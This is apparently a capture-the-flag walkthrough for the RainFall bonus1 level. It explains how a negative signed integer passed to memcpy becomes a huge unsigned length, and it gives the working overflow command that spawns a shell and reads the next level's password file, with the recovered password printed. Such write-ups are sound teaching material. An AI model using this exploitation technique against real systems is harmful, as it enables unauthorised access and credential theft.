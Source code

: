 # Bonus1 Walkthrough

## Analyzing the Program with GDB or Ghidra

1. **Disassemble the program functions**:
    We can see some functions and variables: 
    - `atoi` function : ...
    - `len` variable : has to be strictly less than 10 

    Without arg, it segfault but with gdb we can see that the program use memcpy() so it is vulnerable to buffer overflow.

    - first arg : is convert into an `int` 
    - second arg : is a string copied in a buffer located 40bytes above the address where the value of atoi() is stored.

    if the value of atoi is < 9 then the prgm call memcpy() to copy a part of the second arg into the buffer

    next, the value of atoi is compared to 0x574f4c46 which is 'FLOW'

## Running the program

1. **Calculating**
    - here, we'll have to understand signed integer in 32bits. 
    - memcpy will copy 4 * value of atoi, we'll have to find a negative value who, while multiplied by 4 can access to the memory above the buffer and overwrite the value of atoi, and then replace the value of atoi by FLOW.
    - -2147483630

    - memcpy take an unsigned integer, so it'll be positive directly. 
        - signed : `0` for positive number and `1` for negative number in binary
        - unsigned : every bits is use to represent every positive value.
    
    - Here, the compiler does an implicit conversion of types, if the `signed int` is negative, his bits are unchanged for the other type. 
    Example: `-1` in binary is : `11111111 11111111 11111111 11111111` if this is interpreted with an unsigned it will be `11111111 11111111 11111111 11111111 = 4294967295`

2. **Trying to overflow the RET value**

    "\x46\x4c\x4f\x57" = FLOW en little-endian

    ou `./bonus1 -2147483637 $(python -c "print 'A' * 40 + 'FLOW'")`

    ```bash
    bonus1@RainFall:~$ ./bonus1 -2147483630 $(python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"')
    $ whoami
    bonus2
    $ cat /home/user/bonus2/.pass
    579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
    $ ^C
    $ exit
    bonus1@RainFall:~$ su bonus2
    Password: 
    RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
    No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus2/bonus2
    bonus2@RainFall:~$ 
    ```

## Moving to bonus2

1. **Swith User to bonus2**:
    Run ```su bonus2```

2. **Authenticate with the Password**:
    We used the password we found.